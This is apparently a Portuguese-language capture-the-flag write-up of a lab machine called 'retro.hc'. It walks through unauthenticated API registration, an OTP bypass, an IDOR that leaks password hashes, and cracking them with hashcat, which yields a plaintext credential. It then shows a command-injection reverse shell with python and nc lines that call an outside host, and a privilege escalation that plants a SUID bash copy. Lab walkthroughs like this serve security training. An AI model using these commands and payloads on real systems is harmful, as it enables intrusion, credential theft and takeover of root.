Exploração de API sem autenticação para criação de usuário, bypass de OTP via acesso direto a URL, IDOR para extração de hashes, quebra de credenciais com hashcat, Command Injection e escalada de privilégios via script Python executado por root com diretório substituível.
Vamos iniciar esse novo projeto efetuando a enumeração de portas e serviços ativos no ambiente.
bash$ enumport 172.16.0.191
Enumerando portas....
Portas abertas: 22,80
Verificando Serviços
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-22 19:49 -03
Nmap scan report for 172.16.0.191
Host is up (0.14s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 56:77:ce:f1:3a:c8:f6:54:a7:ce:dc:4c:e5:41:64:70 (ECDSA)
|_ 256 99:49:b0:f0:aa:3f:b8:7a:88:79:45:64:9a:04:38:af (ED25519)
80/tcp open http nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://retro.hc/
Nmap done: 1 IP address (1 host up) scanned in 22.53 seconds
Obs: Para enumeração de portas e serviços utilizamos o script personalizado juntamente com Nmap: github.com/fstringuetta/enumport
Para facilitar a resolução de nomes, adicionamos o domínio diretamente no arquivo hosts.
bash$ echo '172.16.0.191 retro.hc' | sudo tee -a /etc/hosts
Assim que acessamos a página Web na porta 80 temos a seguinte tela:

Vamos realizar uma enumeração de arquivos e diretórios com o objetivo de identificar recursos ocultos ou não diretamente acessíveis.
bash$ ffuf -w /usr/share/wordlists/dirb/big.txt -u http://retro.hc/FUZZ -c
________________________________________________
:: Method : GET
:: URL : http://retro.hc/FUZZ
:: Wordlist : FUZZ: /usr/share/wordlists/dirb/big.txt
________________________________________________
admin [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 148ms]
dashboard [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 149ms]
login [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 152ms]
media [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 147ms]
profile [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 150ms]
register [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 152ms]
static [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 147ms]
verification [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 144ms]
:: Progress: [20470/20470] :: Job [1/1] :: 219 req/sec :: Duration: [0:01:19] ::
Assim que acessamos o diretório /login temos um formulário de autenticação para aplicação.

Tentamos acessar o diretório /register, identificado durante a fase de enumeração, porém nenhuma informação útil foi retornada.

Neste momento, optamos por capturar a requisição de autenticação a fim de analisar seu comportamento e estrutura.

A requisição capturada revela que é realizada uma chamada POST para o endpoint /api/login. Como não possuímos credenciais válidas e não foi identificado nenhum ponto para criação de novos usuários, optamos por realizar uma enumeração de endpoints da API.
Para realizar a enumeração de endpoints da API, utilizaremos o FFUF enviando requisições com método POST a fim de identificar rotas acessíveis.
bash$ ffuf -w /usr/share/wordlists/dirb/big.txt -X POST -u http://retro.hc/api/FUZZ \
-H "Content-Type: application/json" -c -mc all -fl 11
________________________________________________
chat [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 160ms]
login [Status: 403, Size: 37, Words: 4, Lines: 1, Duration: 147ms]
logout [Status: 200, Size: 22, Words: 1, Lines: 1, Duration: 150ms]
register [Status: 400, Size: 111, Words: 10, Lines: 1, Duration: 164ms]
verify [Status: 405, Size: 41, Words: 4, Lines: 1, Duration: 149ms]
:: Progress: [20470/20470] :: Job [1/1] :: 195 req/sec :: Duration: [0:01:25] ::
Dentre todas as respostas, a que mais chama atenção é o endpoint /register — retornou 400 (Bad Request), o que indica apenas que a requisição estava mal formatada, não que o endpoint está inativo.

Com os campos corretos, montamos a requisição adequada para registro de usuário:
http requestPOST /api/register HTTP/1.1
Host: retro.hc
Content-Type: application/json
{
"name": "string",
"email": "string@string.com.br",
"password": "senha123"
}

Após o envio, recebemos confirmação de que o usuário foi criado. Seguimos para login e validação.

Ao tentarmos autenticar, foi solicitado um código OTP como segundo fator. No entanto, durante a enumeração identificamos o diretório /dashboard.

Ao modificar a URL manualmente e acessar /dashboard diretamente, foi possível contornar a verificação OTP e obter acesso ao painel. Verificamos que nosso usuário não possui acesso ao botão do Chatbot.

Realizamos uma nova captura da requisição direcionada ao nosso perfil e identificamos que é atribuído um ID único ao usuário autenticado.

A resposta inclui o hash da senha e a indicação do tipo de conta (free ou premium). Realizamos um ataque IDOR manipulando o ID para acessar dados de outros usuários.

Validada a vulnerabilidade IDOR. Criamos um arquivo com os hashes dos usuários premium para ataque de força bruta.
hashespbkdf2_sha256$870000$a5aDVagtfVrJs2QYI4OHsx$5MKgvpryxR+LXD5crfr3a9CVOOdnIAxor3f2F6g8LIM=
pbkdf2_sha256$870000$dP3w0oHfJtoxIVKlASLurB$TFqPG3GBxvmww9Bf4uG65FXJOkwZI7oLF3XQL50id+w=
O tipo de hash é Django PBKDF2 com SHA256. Utilizamos o hashcat para o ataque:
pbkdf2_sha256: algoritmo de derivação de chave baseado em SHA256.870000: número de iterações aplicadas ao algoritmo.bash$ hashcat -m 10000 hashes /usr/share/wordlists/rockyou.txt --force
pbkdf2_sha256$870000$dP3w0oHfJtoxIVKlASLurB$TFqPG3GBxvmww9Bf4uG65FXJOkwZI7oLF3XQL50id+w=:kingkong
ronin@games.com : kingkong
Com acesso a um usuário premium podemos interagir com o Chatbot e capturar novamente a requisição.


Identificamos que o parâmetro message está vulnerável à Command Injection. Como prova de conceito, enviamos o comando id e recebemos a saída correspondente, confirmando execução remota.
Utilizamos o site reverse-shell.sh para gerar um payload de shell reversa adequado ao contexto da máquina alvo.
bashif command -v python > /dev/null 2>&1; then
python -c 'import socket,subprocess,os; s=socket.socket(...); s.connect(("10.0.15.12",9001)); ...'
exit;
fi
if command -v nc > /dev/null 2>&1; then
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.15.12 9001 >/tmp/f
exit;
fi

Após enviar o payload e executar via injeção de comandos, utilizamos o script Penelope para receber a shell interativa.

Com acesso interativo estabelecido, obtemos a primeira evidência no diretório do usuário comprometido.

Obtida em /home/appuser/user.txt
Identificamos um script Python no diretório do usuário como possível vetor de escalada:
python$ cat verification_rom.py
import os, subprocess, time
def is_valid_rom(file_name):
return file_name.endswith('.smc')
def load_roms():
rom_source = '/home/appuser/roms'
if not os.path.exists(rom_source):
os.makedirs(rom_source, exist_ok=True)
return
for rom in os.listdir(rom_source):
rom_path = os.path.join(rom_source, rom)
if os.path.isfile(rom_path) and is_valid_rom(rom):
try:
subprocess.run(["snes-emulator", rom_path], check=True)
except FileNotFoundError:
subprocess.run([rom_path], check=True) # executa o arquivo diretamente!
load_roms()
Transferimos o binário pspy64 para identificar processos em background e tarefas agendadas.

O pspy64 confirmou que o script é executado automaticamente pelo usuário root a cada poucos minutos. O diretório ~/roms pertence a root, impedindo escrita direta:
bash$ ls -l
drwxr-xr-x 6 appuser appuser 4096 Mar 22 23:25 app
drwxr-x--- 2 root root 4096 Mar 13 01:51 roms ← sem acesso de escrita
-rw-r--r-- 1 root root 46 Mar 12 23:41 user.txt
-rw-r--r-- 1 root root 994 Mar 13 01:54 verification_rom.py
O diretório pai ($HOME) pertence ao nosso usuário. Podemos remover e recriar o diretório roms com o mesmo nome, agora sob nosso controle.
Removemos o diretório original, recriamos com o mesmo nome e inserimos um arquivo .smc malicioso:
bash$ rm -rf /home/appuser/roms
$ mkdir /home/appuser/roms
$ echo -e '#!/bin/bash\ncp /bin/bash /tmp/rootbash\nchmod +s /tmp/rootbash' \
> /home/appuser/roms/evil.smc
$ chmod +x /home/appuser/roms/evil.smc
Aguardamos a execução automática do script pelo root. O bash foi copiado com SUID para /tmp:

Com o rootbash SUID disponível, executamos shell com privilégios elevados e obtivemos a última evidência.

Obtida em /root/root.txt via /tmp/rootbash -p